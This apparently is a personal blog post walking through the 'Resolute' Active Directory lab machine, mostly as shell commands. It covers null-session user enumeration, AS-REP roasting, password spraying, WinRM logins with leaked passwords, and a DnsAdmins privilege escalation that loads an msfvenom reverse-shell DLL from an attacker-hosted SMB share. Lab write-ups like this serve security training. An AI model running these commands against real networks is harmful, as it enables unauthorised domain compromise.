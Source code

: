 ```yaml
---
# multilingual page pair id, this must pair with translations of this page. (This name must be unique)
lng_pair: id_resolute
title: "Resolute"

# post specific
# if not specified, .name will be used from _data/owner/[language].yml
author: Bast1ant1c
# multiple category is not supported
category: Easy
# multiple tag entries are possible
tags: [AD, pentesting]
# thumbnail image for post
img: ":main_photo.jpg"
# disable comments on this page
#comments_disable: true

# publish date
date: 2022-12-27

# seo
# if not specified, date will be used.
#meta_modify_date: 2022-01-01 10:04:30 +0900
# check the meta_common_description in _data/owner/[language].yml
meta_description: ""

# optional
# please use the "image_viewer_on" below to enable image viewer for individual pages or posts (_posts/ or [language]/_posts folders).
# image viewer can be enabled or disabled for all posts using the "image_viewer_posts: true" setting in _data/conf/main.yml.
#image_viewer_on: true
# please use the "image_lazy_loader_on" below to enable image lazy loader for individual pages or posts (_posts/ or [language]/_posts folders).
# image lazy loader can be enabled or disabled for all posts using the "image_lazy_loader_posts: true" setting in _data/conf/main.yml.
#image_lazy_loader_on: true
# exclude from on site search
#on_site_search_exclude: true
# exclude from search engines
#search_engine_exclude: true
# to disable this page, simply set published: false or delete this file
#published: false
---
```

<!-- outline-start -->

Hola, esta es la máquina resolute! Let's hack!

<!-- outline-end -->

## RECON
```bash
ping -c 1 <IP>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oG ports
extractports <ports>
nmap -sCV <PORTS> -oG services
```

## AD DOMAIN DETECTION
```bash
crackmapexec smb <IP>
sudo su
nvim /etc/hosts
<IP>	<DOMAIN>
```

## RCPCLIENT NULL SESSION
```bash
rpcclient -U '' <IP> -N -c enumdomusers | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users.txt
rpcclient -U '' <IP> -N -c enumdomgroups
rpcclient -U '' <IP> -N -c queryfroupmem 0x200
rpcclient -U '' <IP> -N -c queryuser 0x1f4
rpcclient -U '' <IP> -N -c querydispinfo
# OBTENEMOS PASSWORD EN UNA DESCRIPCIÓN
```

## TGT GETNPUSERS ENUM (ASREPROAST ATTACK)
```bash
impacket-GetNPUsers MEGABANK.LOCAL/ -no-pass -usersfile users.txt
```

## VALIDATING CREDENTIALS (PASSWORD SPRAYING)
```bash
crackmapexec smb <IP> -u users.txt -p <PASSWORD> --continue-on-success
```

## GRANTED ACCESS MELANIE USER
```bash
crackmapexec smb <IP> -u melanie -p '<PASSWORD>'
crackmapexec winrm <IP> -u melanie -p '<PASSWORD>'
evil-winrm -i <IP> -u 'melanie' -p '<PASSWORD>'
whoami
```

## FLAG USER.TXT
```bash
type C:\Users\melanie\Desktop\user.txt
```

## AD LOCAL ENUM
```bash
whoami /priv
whoami /all
net group
net user
net user melanie
```

## AD LOCAL ENUM (DIRECTORIES)
```bash
cd C:\
dir -Force
cd PSTranscripts\20191203
dir -Force
type PowerShell_transcript.RESOLUTE.0JuoBGhU.20191203063201.txt
# R_PASSWORD DE RYAN LEAKED
```

## GRANTED ACCESS RYAN USER
```bash
crackmapexec smb <IP> -u ryan -p '<R_PASSWORD>'
crackmapexec winrm <IP> -u ryan -p '<R_PASSWORD>'
evil-winrm -i <IP> -u 'ryan' -p '<R_PASSWORD>'
whoami
```

## AD LOCAL ENUM (DIRECTORIES)
```bash
cd Desktop
dir
type note.txt
```

## AD LOCAL ENUM
```bash
whoami /priv
whoami /all
net group
net user
net user ryan
net localgroup
net localgroup DnsAdmins
```

## ABUSING DNSADMINS GROUP (DNSCMD.EXE PRIVESC)
```bash
# MÁQUINA ATACANTE
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o pwned.dll
# COMPARTIMOS RECURSOS POR SMB
smbserver.py smbFolder $(pwd) -smb2support
# EN ESCUCHA PARA OBTENER REVERSE SHELL
rlwrap nc -nlvp <PORT>

# MÁQUINA VÍCTIMA
dnscmd.exe /config /serverlevelplugindll \\<IP>\smbFolder\pwned.dll
# DETENER SERVICIO DNS
sc.exe stop dns
# INICIAR SERVICIO DNS (SE DEBE EJECUTAR VARIAS VECES)
sc.exe start dns

# REVERSE SHELL OBTENIDA
whoami
```

## FLAG ROOT.TXT
```bash
type C:\Users\Administrator\Desktop\root.txt
```
